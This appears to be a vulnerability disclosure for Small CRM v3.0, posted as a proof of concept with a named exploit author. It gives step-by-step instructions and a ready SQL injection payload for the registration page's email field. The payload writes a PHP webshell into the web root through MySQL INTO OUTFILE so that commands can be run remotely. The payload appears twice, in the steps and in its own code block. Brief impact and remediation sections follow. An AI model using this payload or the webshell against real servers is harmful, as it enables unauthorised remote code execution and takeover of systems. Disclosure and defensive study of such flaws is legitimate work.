




# CVE-2024-xxxx
- Exploit Author: nikhil-aniill

# Vulnerability Description

The Registration page on Small CRM v3.0 is vulnerable to SQL injection, allowing unauthorized remote code execution (RCE) via the Outfile functionality of MySQL. This vulnerability arises from inadequate input validation in the email input field, coupled with the absence of parameterized queries.

## Step by Step POC

1. Navigate to the registration page.
3. Fill out all the fields and intercept the request.
   - 
5. Send the intercepted request to the repeater.
7. Inject a SQL injection payload into the email field, observing the writing of a webshell into the filesystem for persistence mechanisms.
   - ```sql '+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#```
   - 
9. Modify the payload to access the webshell on the server and utilize it to gain complete access to the web server.
10. Access the URL associated with the generated file, triggering a Remote Code Exeuction.
    - 

### Payload for SQLI
```sql
'+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#
```
## Impact

The described vulnerability and proof of concept (PoC) pose severe risks, including unauthorized access, remote code execution (RCE), system compromise.

## Remediation

Implement strict input validation, use parameterized queries, provide security training.

## Screenshots


## References
